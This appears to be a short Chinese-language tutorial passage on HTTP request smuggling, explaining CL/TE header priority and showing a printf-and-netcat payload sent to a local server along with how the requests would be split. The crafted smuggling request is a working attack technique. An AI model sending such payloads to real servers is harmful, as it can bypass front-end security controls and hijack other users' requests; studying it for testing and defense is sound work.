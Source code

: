 其实CL与TE是在RFC中规定了优先级的，TE优先级高于CL。但还是可以通过一些方法绕过。

eg：

```python
printf 
'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-length:56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

正常情况下应该是3个请求

```http
GET / HTTP/1.1
Host:localhost
Content-length:56
Transfer-Encoding: chunked
Dummy:Header

0

```

```http
GET /tmp HTTP/1.1
Host:localhost
Dummy:Header

```

```http
GET /tests HTTP/1.1
Host:localhost
Dummy:Header

```

如果存在TE&CL优先级的话会被解析为两个请求：

```http
GET / HTTP/1.1[CRLF]
Host:localhost[CRLF]
Content-length:56[CRLF]
Transfer-Encoding: chunked[CRLF] (ignored and removed, hopefully)
Dummy:Header[CRLF]
[CRLF]
0[CRLF]  (start of 56 bytes of body)
[CRLF]
GET /tmp HTTP/1.1[CRLF]
Host:localhost[CRLF]
Dummy:Header[CRLF] (end of 56 bytes of body, not parsed)
```
